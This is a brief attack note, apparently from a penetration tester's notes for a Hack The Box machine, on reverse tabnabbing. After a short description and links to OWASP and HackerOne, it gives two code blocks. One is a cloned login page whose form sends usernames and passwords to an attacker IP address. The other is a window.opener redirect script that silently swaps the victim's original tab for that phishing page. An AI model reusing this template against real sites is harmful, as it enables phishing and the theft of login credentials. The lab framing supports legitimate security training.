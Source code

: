 # Tab napping

## More info:  
https://owasp.org/www-community/attacks/Reverse_Tabnabbing  
https://hackerone.com/reports/179568


## Desc

When you open a link in a new tab ( ```target="_blank"``` ), the page that opens in a new tab can access the initial tab and change it's location using the window.opener property. 

## Tab napping setup. 

You need 2 html forms.

1. A fished login form 
2. A form with redirect code in for the browser. 

## Example (hackthebox machine foothold used to test) (developers htb, hard machine)

1. Spoofed login.html (make sure to update any links so they resolve the content and looks as the original)

```
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="description" content="">
    <meta name="author" content="">
    <link rel="icon" href="http://developer.htb/img/favicon.ico">
    <link rel="stylesheet" href="http://developer.htb/static/css/jquery.toasts.css">
    <script src="http://developer.htb/static/js/all.min.js"></script>
    <script src="http://developer.htb/static/js/jquery-3.2.1.min.js"></script>
    <title>Login | Developer.HTB</title>

    <!-- Bootstrap core CSS -->
    <link rel="stylesheet" href="/static/css/bootstrap.min.css">

    <!-- Custom styles for this template -->
    <link href="http://developer.htb/static/css/signin.css" rel="stylesheet">
  </head>

  <body class="text-center">
 
    <form class="form-signin" action="//10.10.14.148:8074" method="get">
        <input type="hidden" name="csrfmiddlewaretoken" value="DNASuXuPkU07d5eNEABgOZsAzDPk3tS3BYJrWmTahQdvAUIYHsStaSpBQvSVTGMs">
      <img class="mb-4" src="http://developer.htb/static/img/logo.png" alt="" width="72" height="72">
      <h1 class="h3 mb-3 font-weight-normal">Welcome back!</h1>
      <label for="uname" class="sr-only">User Name</label>
      <input type="text" id="id_login" name="login" placeholder="Username" class="form-control" required autofocus>
      <label for="password" class="sr-only">Password</label>
      <input type="password" id="id_password" name="password" placeholder="Password" class="form-control" required>

      
      <button id="loginbtn" class="btn btn-lg btn-primary btn-block" type="submit">Sign in</button>
          <a href="http://developer.htb/accounts/password/reset/" class="auth-link">Forgot password?</a>
        <div class="text-center mt-4 font-weight-light"> Don't have an account? <a href="/accounts/signup/" >Click here!</a>      
      <p class="mt-5 mb-3 text-muted">&copy; Developer.HTB 2021</p>
    </form>

<script src="http://developer.htb/static/js/jquery.toast.js"></script> 
<script>


</script>
  </body>
</html>

```

2. Redirect index.html (replace your IP:PORT)

```
<html>
<script>
if (window.opener) window.opener.parent.location.replace('//IP:PORT/login.html');
if (window.parent != window) window.parent.location.replace('//IP:PORT/login.html');
</script>
</html>
```
